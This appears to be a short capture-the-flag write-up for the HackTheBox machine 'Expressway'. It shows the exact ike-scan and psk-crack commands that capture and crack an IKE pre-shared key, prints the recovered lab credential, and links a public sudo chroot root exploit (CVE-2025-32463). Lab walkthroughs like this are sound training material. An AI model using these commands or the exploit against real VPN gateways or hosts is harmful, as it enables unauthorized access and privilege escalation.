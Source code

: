# Expressway: HackTheBox

Difficulty: Easy (very non-standard box)

## Enumeration

On doing masscan we see only port 22 open. But I tried other ways to check the open ports (mainly nmap -sU -F) and it returned port 500. Idk why masscan didnt work because I use the "U" flag there also. I figured this out only due to a shit ton of hints from htb discord.

## Initial Foothold

So to pentest isakmp I used [this article](https://blog.silentsignal.eu/2014/04/17/isakmp-aggressive-psk-tools/)

So I used these 2 snippets:

```bash
sudo ike-scan -A --trans=5,2,1,2 --id=vpnclient -Ppsk.txt 10.129.174.173
```

This gives a username `ike@expressway.htb`

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt psk   
```

This will give the password

From this you can see this set of credentials:

```
ike@expressway.htb:freakingrockstarontheroad
```

## Privilege Escalation

Just use [this script](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/blob/main/sudo-chwoot.sh) after initial access to run as root.

Overall pretty mid box (just user access, but its my skill issue I guesss). Aside from that pretty nice, HIHGLY beginner oriented lol.

Happy Hacking :)

